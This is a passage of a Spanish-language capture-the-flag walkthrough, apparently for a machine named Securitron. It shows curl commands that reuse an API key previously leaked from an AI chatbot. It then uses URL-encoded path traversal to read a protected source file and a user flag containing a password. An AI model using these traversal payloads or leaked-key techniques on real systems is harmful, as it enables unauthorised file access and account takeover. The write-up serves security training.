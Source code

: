 ![API information](/assets/securitron/image-29.png)

Para facilitar la visualización del JSON obtenido por la API, creamos un alias.

```bash
alias showJson="/home/securitybot/.nvm/versions/node/v22.5.1/bin/node -p \"JSON.stringify( JSON.parse(require('fs').readFileSync(0) ), 0, 1 )\""
```

Miramos si podemos acceder al endpoint /api/models.

```bash
curl http://localhost:3000/api/models | showJson
```

Nos aparece un mensaje de error que dice `API Key es requerida`, en la descripción del endpoint mostraba el texto `requiere x-api-key header`.

Probamos con la API-KEY filtrada al principio en la IA `imagine-no-heaven-no-countries-no-possessions`, y la introducimos como valor de la cabecera `x-api-key`.

```bash
curl -H "x-api-key: imagine-no-heaven-no-countries-no-possessions" http://localhost:3000/api/models | showJson
```

Parece que funciona con la API-KEY filtrada, ahora nos devuelve un listado de dos ficheros de modelos IA en formato GGUF. Probamos con el endpoint `/api/models/:fileName`, indicando el segundo fichero de modelo `ggml-model-q4_0.gguf`, y lo descarga correctamente.

```bash
curl -H "x-api-key: imagine-no-heaven-no-countries-no-possessions" http://localhost:3000/api/models/ggml-model-q4_0.gguf -o /tmp/model.gguf
```

Lo borramos o cancelamos la descarga ya que ocupa mucho espacio.

Intentamos leer algún fichero que sabemos que existe y que solo puede leer el usuario `securitybot`, como por ejemplo `/home/securitybot/.local/bin/bot/index.js`, que sabemos que existe pero no tenemos acceso de lectura con nuestro usuario.

```bash
curl -H "x-api-key: imagine-no-heaven-no-countries-no-possessions" http://localhost:3000/api/models/..%2F..%2F..%2F..%2F..%2F..%2Fhome%2Fsecuritybot%2F.local%2Fbin%2Fbot%2Findex.js
```

Podemos leer el fichero correctamente de la programación de la API en Node.js.

Intentamos leer el fichero de la flag de user.txt del usuario `securitybot`.

```bash
curl -H "x-api-key: imagine-no-heaven-no-countries-no-possessions" http://localhost:3000/api/models/..%2F..%2F..%2F..%2F..%2F..%2Fhome%2Fsecuritybot%2Fuser.txt
```

Obtenemos el flag de user.txt y una contraseña de regalo `0KjcFEkuUEXG` (esto no es muy realista).

![User flag and password](/assets/securitron/image-30.png)

Accedemos al usuario `securitybot` con la contraseña `0KjcFEkuUEXG`.
